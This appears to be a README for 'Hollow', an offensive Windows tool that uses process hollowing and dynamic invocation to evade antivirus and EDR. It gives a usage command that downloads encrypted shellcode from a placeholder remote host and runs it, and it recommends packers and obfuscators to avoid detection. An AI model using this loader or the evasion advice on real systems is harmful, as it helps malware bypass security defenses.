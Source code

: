 # Hollow

Trying to evade AV/EDRs using Process hollowing with standalone dynamic invocation avoiding suspicious imports and API Hooks and loading remote AES or xor encrypted shellcode


## Usage

Example:
```Powershell
.\H0ll0w.exe -u http://IP:PORT/shellcode.bin -e AES -k "KEY"
```

To further evade detection, it is recommended to pack the executable with `PEzor` or scramble and obfuscate it with `ConfuserEx`.

# Refs
* OSEP
* [Rasta Mouse](https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/)
* https://bohops.com/2022/04/02/unmanaged-code-execution-with-net-dynamic-pinvoke/

## Disclaimer
This repository is for educational purposes only and should not be used for malicious purposes. The author is not responsible for any illegal use of the code.
